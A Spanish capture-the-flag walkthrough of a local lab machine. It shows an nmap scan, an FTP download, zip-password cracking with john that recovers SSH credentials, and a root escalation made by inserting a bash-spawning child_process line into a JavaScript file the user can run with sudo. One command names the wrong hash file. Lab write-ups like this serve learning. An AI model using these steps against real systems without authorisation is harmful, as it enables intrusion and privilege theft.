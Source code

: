 Fecha: 03/09/2024

Empiezo escaneando la máquina: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](../Imágenes/Pasted%20image%2020240903180050.png)
Descargo el comprimido que se ubica en ftp:
```bash
wget ftp://172.17.0.2/secretitopicaron.zip
```

Necesita una contraseña, así que uso john de ripper para buscarla:
```bash
zip2john secretitopicaron.zip > ziphash.txt
john ziphash.zip                  
```
![](../Imágenes/Pasted%20image%2020240903182308.png)
Conseguimos de esta manera un usuario (`mario`) y contraseña (`laKontraseñAmasmalotaHdelbarrioH`) para ssh. 
![](../Imágenes/Pasted%20image%2020240903182512.png)

Lo primero que miro al entrar es qué podemos ejecutar con sudo, encontrando que podemos ejecutar un script de js, que podemos editar nosotros mismos:
![](../Imágenes/Pasted%20image%2020240903182747.png)

Insertaré lo siguiente en el script y ya podré hacerme root:
```js
const { spawn } = require('child_process'); 

const shell = spawn('bash', { stdio: 'inherit', shell: true });
```

![](../Imágenes/Pasted%20image%2020240903183243.png)
